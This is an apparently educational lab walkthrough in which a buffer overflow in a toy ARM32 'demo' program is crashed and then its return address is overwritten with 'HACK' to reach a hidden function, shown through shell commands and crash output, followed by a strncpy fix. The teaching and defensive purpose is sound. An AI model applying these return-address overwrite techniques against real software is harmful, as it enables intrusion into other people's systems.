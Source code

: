 # Problem 2 Walkthroug

## Part A

First determine what architecture you want to run the program on. If it's not an ARM32 machine you should use the run\_qemu.sh script. This runs the compiled program in qemu-user mode. Otherwise just run the demo program.

We start by running our program with some string as a first argument.

```sh
  user@host$ ./demo AAAA
  Hello to the string consumer 3000!
  You provided me a string! Yum!
```

It's a good start, but it's not what we want. We want to crash the program. So we start putting in a really long string.

```sh
  user@host$ ./demo AAAAAAAAAAAAAAAAAAAA
  Hello to the string consumer 3000!
  You provided me a string! Yum!
  ------------------------ERROR-------------------------
  Goodbye cruel world! I was a young program. And I have died too soon!
  You can avenge my death! I received Signal Number 11
  Looks like I was near address 0x41414140 at my untimely demise.
  Aborted (core dumped)
```

Great. We crashed the program and if we look closely our input is in the program counter. Now the problem asks us to find the minimum length so we run the program with progressively fewer characters until it doesn't crash. It doesn't crash when our length is 15 so our minimum length to crash is 16 characters.

```sh
  user@host$ ./demo AAAAAAAAAAAAAAAA
  Hello to the string consumer 3000!
  You provided me a string! Yum!
  ------------------------ERROR-------------------------
  Goodbye cruel world! I was a young program. And I have died too soon!
  You can avenge my death! I received Signal Number 4
  Looks like I was near address 0xff6bef44 at my untimely demise.
  Aborted (core dumped)
```

## Part B

So we know that our string impacts our return address, that we want to jump to 0x4b434148, and we need a string of length 15 in front of our string.

At this you can experiment like above and see how As turn into 0x41 in the following example and see how their characters are being parsed into the return address.

```sh
  user@host$ ./demo AAAAAAAAAAAAAAAAAAAA
  Hello to the string consumer 3000!
  You provided me a string! Yum!
  ------------------------ERROR-------------------------
  Goodbye cruel world! I was a young program. And I have died too soon!
  You can avenge my death! I received Signal Number 11
  Looks like I was near address 0x41414140 at my untimely demise.
  Aborted (core dumped)
```

In order to change 0x4b434148 into our string we change the bytes into character and see that the characters correspond to the string 'KCAH'. If we append this to our string with a precursor of 15 bytes we see:

```sh
  user@host$ ./demo AAAAAAAAAAAAAAAKCAH
  Hello to the string consumer 3000!
  You provided me a string! Yum!
  ------------------------ERROR-------------------------
  Goodbye cruel world! I was a young program. And I have died too soon!
  You can avenge my death! I received Signal Number 11
  Looks like I was near address 0x484142 at my untimely demise.
  Aborted (core dumped)
```

It's not quite right. We notice that this address has a 0 as its first octet and realize we should add another character to the start (16 bytes).

```sh
  user@host$ ./demo AAAAAAAAAAAAAAAAKCAH
  Hello to the string consumer 3000!
  You provided me a string! Yum!
  ------------------------ERROR-------------------------
  Goodbye cruel world! I was a young program. And I have died too soon!
  You can avenge my death! I received Signal Number 11
  Looks like I was near address 0x4841434a at my untimely demise.
  Aborted (core dumped)
```

Looking at this result we see that we now have a full address, but the values are wrong. They're backwards! We change our string at the end from 'KCAH' to 'HACK' and try again.

```sh
  user@host$ ./demo AAAAAAAAAAAAAAAAHACK
  Hello to the string consumer 3000!
  You provided me a string! Yum!
    _____
   /     \
  | () () |
   \  ^  /
    |||||
    |||||

  Oh no! There's haxx0rs in the mainframe!

```

And we won. We made it to the correct function. Celebrate your success and write down the correct result.

## Part C

Part C is a bit more open ended than the previous problems. We need to think about how the buffer is of a limited size and how our strcpy does not check the output or end after a certain point.

Valid solutions to this could be checking the length of the string or otherwise using a more protected function like strncpy which takes the length of the buffer.
